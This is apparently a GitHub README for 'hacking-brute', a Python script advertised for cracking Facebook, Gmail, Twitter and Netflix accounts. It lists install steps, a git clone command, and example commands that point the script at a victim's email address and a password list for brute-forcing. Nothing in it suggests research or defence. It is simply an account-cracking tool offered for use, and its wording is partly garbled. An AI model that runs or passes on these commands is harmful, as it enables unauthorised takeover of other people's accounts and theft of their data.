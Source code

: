# hacking-brute
Installation 


pip3 install proxylist
pip3 install mechanize

Ckraking Facebook and Gmail and twitter and Netflix 

Hacking Facebook, Twitter, gmail and Netflix 
In order for the script to work, you must first use the Python language No.  version 1

git clone https://github.com/hmida125/hacking-brute

Cd hacking-brute
Ls
python ckraking.py
_______________________________________________

Exemple:facebook


python ckraking.py -f emailadress -l passwordlist.txt

Exemple:gmail

python ckraking.py -g emailadress -l passwordlist.txt

Exemple:twitter

python ckraking.py -T emailadress -l passwordlist.txt

Exemple:Netflix 

python ckraking.py -n emailadress -l passwordlist.txt
